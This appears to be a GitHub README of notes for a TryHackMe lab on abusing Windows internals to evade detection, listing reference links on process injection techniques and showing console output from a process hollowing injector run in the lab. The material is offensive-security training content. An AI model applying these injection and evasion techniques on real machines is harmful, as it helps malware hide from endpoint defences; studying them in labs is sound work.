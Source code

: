 # TryHackMe-Abusing-Windows-Internals
[Abusing Windows Internals](https://tryhackme.com/room/abusingwindowsinternals)

Leverage windows internals components to evade common detection solutions, using modern tool-agnostic approaches
1. [Process Injection: Process Hollowing](https://attack.mitre.org/techniques/T1055/012/)
2. [Process Injection: Thread Execution Hijacking](https://attack.mitre.org/techniques/T1055/003/)
3. [Process Injection: Dynamic-link Library Injection](https://attack.mitre.org/techniques/T1055/001/)
4. [Process Injection: Portable Executable Injection](https://attack.mitre.org/techniques/T1055/002/)
5. [Process Injection](https://attack.mitre.org/techniques/T1055/)
6. [Asynchronous Procedure Calls](https://docs.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls)
7. [How TrickBot Malware Hooking Engine Targets Windows 10 Browsers - SentinelLabs](https://www.sentinelone.com/labs/how-trickbot-malware-hooking-engine-targets-windows-10-browsers/)

```
C:\Users\THM-Attacker\Desktop\Injectors>hollowing-injector.exe 3364
[+] Created victim process
        [*] PID 5100
[+] Replacement executable opened
        [*] Size 103424 bytes
[+] Read replacement executable into memory
        [*] In current process at 0x001d0000
[+] Obtained context from victim process's primary thread
        [*] Victim PEB address / EBX = 0x0046b000
        [*] Victim entry point / EAX = 0x00ce36d0
[+] Extracted image base address of victim process
        [*] Address: 0x00ce0000
[+] Hollowed out victim executable via NtUnmapViewOfSection
        [*] Utilized base address of 0x00ce0000
[+] Replacement image metadata extracted
        [*] replacementImageBaseAddress = 0x00400000
        [*] Replacement process entry point = 0x00001268
[+] Allocated memory in victim process
        [*] pVictimHollowedAllocation = 0x00ce0000
        [*] Headers written into victim process
        [*] Section .text written into victim process at 0x00ce1000
                [*] Replacement section header virtual address: 0x00001000
                [*] Replacement section header pointer to raw data: 0x00000400
        [*] Section .rdata written into victim process at 0x00ce2000
                [*] Replacement section header virtual address: 0x00002000
                [*] Replacement section header pointer to raw data: 0x00001200
        [*] Section .data written into victim process at 0x00ce3000
                [*] Replacement section header virtual address: 0x00003000
                [*] Replacement section header pointer to raw data: 0x00001e00
        [*] Section .rsrc written into victim process at 0x00ce4000
                [*] Replacement section header virtual address: 0x00004000
                [*] Replacement section header pointer to raw data: 0x00002000
        [*] Section .reloc written into victim process at 0x00cfc000
                [*] Replacement section header virtual address: 0x0001c000
                [*] Replacement section header pointer to raw data: 0x00019200
[+] Victim process entry point set to replacement image entry point in EAX register
        [*] Value is 0x00ce1268
[+] Resuming victim process primary thread...
[+] Cleaning up

C:\Users\THM-Attacker\Desktop\Injectors>
```
